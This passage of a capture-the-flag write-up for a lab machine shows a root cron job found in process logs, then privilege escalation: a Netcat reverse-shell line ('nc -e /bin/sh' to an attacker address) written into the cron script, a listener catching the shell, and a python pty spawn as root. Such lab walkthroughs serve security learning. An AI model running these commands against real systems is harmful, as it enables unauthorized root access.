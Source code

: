 ```bash
2021/07/16 22:42:01 CMD: UID=0    PID=15313  | /usr/sbin/CRON -f 
2021/07/16 22:42:01 CMD: UID=0    PID=15314  | /usr/sbin/CRON -f                                                                                                                                                                         
2021/07/16 22:42:01 CMD: UID=0    PID=15315  | /bin/sh -c /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old 
```
There is a cron job running as root and running this script (or trying and failing to do it now since I deleted it).

### 16. Escalate to root for real
Start up a listener, and then create the file with a Netcat reverse shell.
```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old
#!/bin/sh

nc -e /bin/sh 192.168.34.138 9999
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ chmod 777 .trash_old
```

Wait a few minutes for the cron to fire.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.152] 60898
python -c "import pty;pty.spawn('/bin/bash')"
root@glasgowsmile:~# whoami
whoami
root
```